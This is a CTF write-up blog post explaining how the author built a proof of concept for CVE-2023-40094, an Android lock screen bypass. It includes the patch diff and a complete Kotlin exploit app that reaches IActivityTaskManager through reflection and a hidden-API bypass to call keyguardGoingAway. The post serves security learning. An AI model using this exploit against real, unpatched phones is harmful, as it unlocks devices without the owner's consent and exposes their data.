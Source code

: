 ```yaml
---
layout: post
title: BreizhCTF Writeup or Android PoC for CVE-2023-40094
date: 2024-05-23 12:14 +0200
categories: [CTF, Android, CVE]
img_path: /images/bzh-ctf-cve
---
```


## Introduction

The last mobile challenge from the 2024 edition of [BreizhCTF](https://www.breizhctf.com/) consists in developing a proof of concept for the vulnerability known as CVE-2023-40094. An vulnerable system partition is provided.

The goal is to use the app to unlock the phone.

_Note I didn't solve it during the CTF but I remember that according to the challenge the flag was on a screenshot you could see with the screen unlocked so you had to provide an APK that unlock the phone_.

## CVE-2023-40094

<https://nvd.nist.gov/vuln/detail/CVE-2023-40094>:
> In keyguardGoingAway of ActivityTaskManagerService.java, there is a possible lock screen bypass due to a missing permission check. This could lead to local escalation of privilege with no additional execution privileges needed. User interaction is not needed for exploitation.

Let's take a look at the patch:

First you need to get the Android bulletin of december 2023 (simple Google search) and reach the commit page <https://android.googlesource.com/platform/frameworks/base/+/1120bc7e511710b1b774adf29ba47106292365e7>.

Then click on [diff](https://android.googlesource.com/platform/frameworks/base/+/1120bc7e511710b1b774adf29ba47106292365e7%5E%21/) to get the commit diff:

```diff
diff --git a/core/java/android/app/IActivityTaskManager.aidl b/core/java/android/app/IActivityTaskManager.aidl
index fe75dd3..b709b7e 100644
--- a/core/java/android/app/IActivityTaskManager.aidl
+++ b/core/java/android/app/IActivityTaskManager.aidl

@@ -239,6 +239,7 @@
      *              {@link android.view.WindowManagerPolicyConstants#KEYGUARD_GOING_AWAY_FLAG_TO_SHADE}
      *              etc.
      */
+     @JavaPassthrough(annotation="@android.annotation.RequiresPermission(android.Manifest.permission.CONTROL_KEYGUARD)")
     void keyguardGoingAway(int flags);
 
     void suppressResizeConfigChanges(boolean suppress);

diff --git a/services/core/java/com/android/server/wm/ActivityTaskManagerService.java b/services/core/java/com/android/server/wm/ActivityTaskManagerService.java
index aa15429..71ca852 100644
--- a/services/core/java/com/android/server/wm/ActivityTaskManagerService.java
+++ b/services/core/java/com/android/server/wm/ActivityTaskManagerService.java

@@ -18,6 +18,7 @@
 
 import static android.Manifest.permission.BIND_VOICE_INTERACTION;
 import static android.Manifest.permission.CHANGE_CONFIGURATION;
+import static android.Manifest.permission.CONTROL_KEYGUARD;
 import static android.Manifest.permission.CONTROL_REMOTE_APP_TRANSITION_ANIMATIONS;
 import static android.Manifest.permission.INTERACT_ACROSS_USERS;
 import static android.Manifest.permission.INTERACT_ACROSS_USERS_FULL;
@@ -3394,6 +3395,7 @@
 
     @Override
     public void keyguardGoingAway(int flags) {
+        mAmInternal.enforceCallingPermission(CONTROL_KEYGUARD, "unlock keyguard");
         enforceNotIsolatedCaller("keyguardGoingAway");
         final long token = Binder.clearCallingIdentity();
         try {
```

Notice that a permission _android.Manifest.permission.CONTROL_KEYGUARD_ was added to protect from the call to `public void keyguardGoingAway(int flags)` both in _IActivityTaskManager.aidl_ and _ActivityTaskManagerService.java_.

I guess that previously we could call this function without permission but what is _keyguard_? [Its the lock screen](https://stackoverflow.com/questions/17689842/what-is-the-keyguard-in-android) so our goal is to call `public void keyguardGoingAway(int flags)` with the right permissions.

## Setup

A vulnerable system (android-34) partition is provided for the challenge, simply put it under _\<Android Sdk Folder>/Android/Sdk/system-images_ then [create an AVD of a Pixel](https://developer.android.com/studio/run/managing-avds) from this image. Our goal is to bypass the lock screen so enable it first from the settings.

## Exploit

The goal is to call `public void keyguardGoingAway(int flags)` with the right flags from the class _ActivityTaskManagerService.java_. _ActivityTaskManagerService.java_ is an Android service so how can I call it since it does not live in the app process?

I found some posts that shows how to interact with those API (I just googled the name of the classes and the "exploit" keyword):
    - <https://huaweicloud.csdn.net/64f97cad87b26b6585a1e62b.html>: Hooks methods from `IActivityTaskManager`.
    - <https://androidreverse.wordpress.com/2020/05/03/startflag-dos-exploit>: Hooks method _startActivity_ then trigger a DoS.

Inter-app communication uses the **Binder**. Its an Inter-process comunication mechanism that allows different processes to communicate efficiently (Its like optimized RPC).

Here it means that Android creates an object _IActivityTaskManager_ (defined by a interface file called _IActivityTaskManager.aidl_) that can call remotely methods of the service defined by _ActivityTaskManagerService.java_. This object is contained in the class _ActivityTaskManager_ as a _Singleton_.
As the Android framework is loaded in our App process and _ActivityTaskManager_ contains the instance of _IActivityTaskManager_ (has a Singleton) then It is possible to retrieve _IActivityTaskManager_ and then call `public void keyguardGoingAway(int flags)` remotely from the service _ActivityTaskManagerService.java_ (binder mechanism).

The following code is the PoC:

```kotlin
package com.bzh.love

import android.annotation.SuppressLint
import android.content.Context
import android.os.Build
import android.os.Bundle
import android.util.Log
import androidx.activity.ComponentActivity
import androidx.activity.compose.setContent
import androidx.annotation.RequiresApi
import androidx.compose.foundation.layout.Arrangement
import androidx.compose.foundation.layout.Column
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.material3.Text
import androidx.compose.ui.Alignment
import androidx.compose.ui.Modifier
import com.bzh.love.ui.theme.BzhTheme
import org.lsposed.hiddenapibypass.HiddenApiBypass

class MainActivity : ComponentActivity() {
    @RequiresApi(Build.VERSION_CODES.P)
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)

        setContent {
            BzhTheme {
                    Column( modifier = Modifier.fillMaxSize(),
                        verticalArrangement = Arrangement.Center,
                        horizontalAlignment = Alignment.CenterHorizontally) {
                        Text(text = "Exploit is done")
                    }
                }
            }
        doExploit(this)
        }

    }




@RequiresApi(Build.VERSION_CODES.P)
@SuppressLint("PrivateApi", "DiscouragedPrivateApi", "BlockedPrivateApi")
fun doExploit(context: Context) {
    // some online posts show uses of those API:
    // - https://huaweicloud.csdn.net/64f97cad87b26b6585a1e62b.html
    // - https://androidreverse.wordpress.com/2020/05/03/startflag-dos-exploit/
    // HiddenApiBypass comes from:
    // - org.lsposed.hiddenapibypass:hiddenapibypass:4.3

    // Goal: Call keyguardGoingAway using the ActivityTaskManagerService
    Log.i("EXPLOIT", "Launching exploit.")

    // IActivityTaskManager has the keyguardGoingAway method an can be called from our process
    // as it comes from the framework.
    val iActivityTaskManagerClazz = Class.forName("android.app.IActivityTaskManager")
    // We need ActivityTaskManager because it holds a stub of IActivityTaskManager as a Singleton:
    // "IActivityTaskManagerSingleton"
    val activityTaskManagerClazz = Class.forName("android.app.ActivityTaskManager")

    // We use reflection to get IActivityTaskManagerSingleton from ActivityTaskManager
    val iActivityTaskManagerSingletonField =
        activityTaskManagerClazz.getDeclaredField("IActivityTaskManagerSingleton")
    iActivityTaskManagerSingletonField.isAccessible = true // else we can't access private fields

    // our object IActivityTaskManagerSingleton is a singleton so I need to call its get() method
    // to extract the real object or use its mInstance
    val singletonClazz = Class.forName("android.util.Singleton")
    val mInstanceField = singletonClazz.getDeclaredField("mInstance")
    mInstanceField.isAccessible = true // else we can't access private fields

    // Finally get the object IActivityTaskManager from mInstance Field of the Singleton
    val iActivityTaskManagerSingleton = iActivityTaskManagerSingletonField.get(null)
    val iActivityTaskManager = mInstanceField.get(iActivityTaskManagerSingleton)

    // For the same reason I could not call getService() to get IActivityTaskManagerSingleton
    // directly, I can't call directly "keyguardGoingAway" so I use the framework HiddenApiBypass.
    try {
        HiddenApiBypass.invoke(iActivityTaskManagerClazz, iActivityTaskManager,
            "keyguardGoingAway", 0)
        Log.i("EXPLOIT", "Exploit is done. Phone must be unlocked.")
    } catch (_: Exception) {
        Log.i("EXPLOIT", "Exploit failed. Target may be not vulnerable.")
    }
}
```

Notes:

- The line `HiddenApiBypass.invoke(iActivityTaskManagerClazz, iActivityTaskManager, "keyguardGoingAway", 0)` is required as the exploit requires to call `keyguardGoingAway`. Android discourages the access to the API _android.app.IActivityTaskManager_ therefore it is a [hidden api](https://developer.android.com/guide/app-compatibility/restrictions-non-sdk-interfaces). Thus calling `keyguardGoingAway` requires to use an hidden API bypass such as <https://github.com/LSPosed/AndroidHiddenApiBypass>. To install it I had to had the following line to the dependencies in `build.gradle.kts`: `implementation("org.lsposed.hiddenapibypass:hiddenapibypass:4.3")`.
- I call _keyguardGoingAway_ with 0 as it worked with any value I provided.

Besides this line most of the code comes from the links:

- <https://huaweicloud.csdn.net/64f97cad87b26b6585a1e62b.html>
- <https://androidreverse.wordpress.com/2020/05/03/startflag-dos-exploit/>

## Demonstration

![Demo](demo.gif)

## Final thoughts

This challenge is so interesting as it forces us to quickly develop a PoC for an existing vulnerability. Thats real world skills. I definitely should have taken more time to do it during the CTF. **Huge thanks to the author**.
